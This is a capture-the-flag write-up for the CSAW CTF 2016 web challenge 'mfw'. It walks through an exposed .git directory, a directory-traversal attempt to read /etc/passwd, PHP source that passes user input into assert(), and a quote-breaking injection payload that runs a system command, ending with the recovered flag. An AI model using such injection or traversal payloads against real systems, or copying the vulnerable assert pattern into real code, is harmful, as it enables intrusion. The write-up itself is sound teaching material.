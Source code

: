 # CSAW CTF 2016 mfw Writeup

mfw was a web challenge that included one flag for 125 points.

When launching the mfw web site at web.chal.csaw.io:8000 was introduced by the phrases 

```
Welcome to my website!
I wrote it myself from scratch!
``` 

and this is how it basically looked like: A navigation pane with three links to `Home`, `About` and `Contact`. While Home and Contact did not show something interesting, the About page revealed some nice information as he wrote: 

```
I wrote this website all by myself in under a week!
I used Git, PHP and Bootstrap 
```

Next to this it was easy to see that the developer created a common templating system based on the GET parameter `page` as all URL looked like the following:

```
http://web.chal.csaw.io:8000/?page={home,about,contact}
```

Further investigation of the source code revealed that formerly there seemed to be a fourth link within the navigation pane:

```
<ul class="nav navbar-nav">
    <li ><a href="?page=home">Home</a></li>
	<li class="active"><a href="?page=about">About</a></li>
	<li ><a href="?page=contact">Contact</a></li>
	<!--<li ><a href="?page=flag">My secrets</a></li> -->
</ul> 
```

For sure, the most obvious and therefore first try was to use a local file inclusion to get the output of /etc/passwd or the flag.php file but the following answer was returned:

```
http://web.chal.csaw.io:8000/?page=../../../../../etc/passwd

Detected hacking attempt!
```

Some more tests with different payloads and encodings lead to the fact that the code somehow detects two points, so a simple directory traversal was not possible. After some tries I found out the the flag.php file was lying within a folder called `templates`, but the inclusion of the file did not show any further information so my guess was that the flag is saved within a PHP variable of the file. 

Following the hint from the `About` page I tried to see whether the developer forgot to exclude the `.git` directory from the web server and voila: a directory listing showing the default content of a .git folder was found:

```
branches  description  hooks  info  objects      refs
config    HEAD         index  logs  packed-refs
```

Now I cloned the git repository and used `git diff` which revealed the source code of the index.php file as follows:

```
<?php
-
-if (isset($_GET['page'])) {
-       $page = $_GET['page'];
-} else {
-       $page = "home";
-}
-
-$file = "templates/" . $page . ".php";
-
-// I heard '..' is dangerous!
-assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
-
-// TODO: Make this look nice
-assert("file_exists('$file')") or die("That file doesn't exist!");
```

Jackpot! The first use of the `assert` function suffers from a remote code execution vulnerability as there is no input validation that restricts a user from using a single quote which enables him to break out of the first argument within the `strpos()` function. 

Therefore, the following payload:

```
flag','..')+or+system('cat+templates/flag.php');//
``` 

lead to the response containing the flag:

```
<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
```
